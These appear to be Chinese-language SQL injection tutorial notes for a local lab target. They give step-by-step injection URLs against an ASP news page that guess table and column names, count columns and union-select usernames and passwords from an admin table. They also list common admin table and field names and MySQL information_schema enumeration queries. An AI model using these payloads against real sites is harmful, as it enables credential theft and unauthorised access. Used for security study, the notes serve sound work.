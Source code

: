 判断回显位置

- 猜解表名

http://192.168.80.128/shownews.asp?id=16 and exists(select * from manage_user)
select * from news where id=16 and exists(select * from manage_user)

常见表名：
admin user adminuser manage manager manage_user

- 猜解字段名

http://192.168.80.128/shownews.asp?id=16 and exists(select username from manage_user)

select * from news where id=16 and exists(select username from manage_user)

常见字段名：
账号：name username user_name admin adminuser admin_user admin_username adminname
密码：password pass userpass user_pass pwd userpwd adminpwd admin_pwd

- 猜解字段数量

http://192.168.80.128/shownews.adp?id=16 order by 11
select * from news where id=16 order by 11

既可猜解字段数量，又可获知可以显示内容的字段：
http://192.168.80.128/shownews.asp?id=16 union select 1,2,3,4,5,6,7,8,9,10,11 from manage_user

- 爆出字段内容

http://192.168.80.128/shownews.asp?id=16 union select 1,username,password,4,5,6,7,8,9,10,11 from manage_user

- 寻找后台管理入口

http://192.168.80.128/admin
网站后台管理入口一般存放在名为admin或是manage的网站子目录下
也可以在管理入口页面源代码中寻找字段名

### PHP+MySQL

- 元数据库information_schema

在5.0以后的版本的MySQL中存在着一个元数据库information_schema，其中存储着用户在MySQL中创建的所有其它数据库的信息

在对PHP+MySQL类网站进行注入时，主要就是针对information_schema数据库进行操作

- information_schema中比较重要的数据表

schemata:用于存放所有数据库的名字
tables:用于存放所有数据库中的数据表的名字
columns:用于存放所有数据库的所有数据表中的所有字段的名字

- 利用information_schema查看其他数据库的内容

查看test数据库中包含了哪些表
select table_name from information_schema.tables where table_schema="test";

查看hack数据表中包含了哪些字段
select column_name from information_schema.columns where table_name="hack";
